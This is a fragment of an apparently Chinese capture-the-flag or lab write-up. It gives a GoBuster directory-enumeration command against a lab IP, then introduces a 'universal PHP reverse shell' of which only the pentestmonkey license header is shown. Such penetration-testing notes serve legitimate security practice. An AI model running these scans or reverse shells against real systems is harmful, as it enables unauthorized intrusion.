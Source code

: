 [![](assets/1706771526-aea2486b96341d92ae762958b765488c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223142-1f17f904-beb3-1.png)

## Find directories on the web server using the GoBuster tool.

[![](assets/1706771526-8a3d2c1117d9b21d40a78c5eb93e8008.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223146-2154e7f4-beb3-1.png)

```plain
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u 10.10.92.61
```

万能php反弹shell

```plain
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
```